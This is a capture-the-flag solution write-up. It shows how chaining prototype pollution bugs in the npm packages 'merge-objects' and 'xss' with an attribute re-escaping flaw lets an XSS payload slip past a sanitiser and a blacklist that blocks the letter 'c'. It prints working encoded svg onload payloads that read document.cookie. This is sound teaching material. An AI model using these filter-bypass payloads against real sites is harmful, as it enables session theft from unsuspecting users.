 # Solution
The intended solution involves chaining together the following three vulnerabilies from two different npm packages, roughly in this order:
    1. `merge-objects` prototype pollution: https://npmjs.com/advisories/716
    2. `xss` prototype pollution to XSS: https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/js-xss.md
    3. `xss` failing to re-escape whitelisted attribute values: https://github.com/leizongmin/js-xss/issues/180

When used in conjunction, these vulnerabilies allow you to construct a payload that bypasses the XSS filter as well as the blacklist filter.
The purpose of the blacklist filter (`sanitized.replace(/C/g, '\u0421').replace(/c/g, '\u0441')`) is to make it so players have to take advantage of the fact that the XSS filter does not re-escape attribute values if they want to access `document.cookie`.
As an example, the payload: 
`<svg onload="alert(document.cookie)">` 
would easily be caught by the blacklist filter. HTML encoding the JavaScript portion once would give you
`<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>`
which would still be caught as it would revert to
`<svg onload="alert(document.cookie)">` 
once it is un-escaped by the XSS filter. HTML encoding the JavaScript portion of the payload twice works because 
`<svg onload=&#38;&#35;&#57;&#55;&#59;&#38;&#35;&#49;&#48;&#56;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#52;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#48;&#59;&#38;&#35;&#49;&#48;&#48;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#55;&#59;&#38;&#35;&#49;&#48;&#57;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#48;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#54;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#48;&#55;&#59;&#38;&#35;&#49;&#48;&#53;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#52;&#49;&#59;>`
becomes 
`<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>`
after passing through the XSS filter. This payload will all make it past the blacklist filter and be served as a webpage to the hero, which un-escapes it an additional time and interprets it as
`<svg onload="alert(document.cookie)">` as intended. 
The blacklist filter also forces players to use a somewhat more rare XSS payload that doesn't directly contain a "c", as a lot of the most common ones do (e.g. `<s**c**ript sr**c**=...`, `<img sr**c**=...`, `<iframe sr**c**=...`, etc.).

Additonally, here is a list of XSS payloads that I used to find one that can be triggered without using a "c": https://gist.github.com/phra/76518994c908ac836ec5a393f188f89a
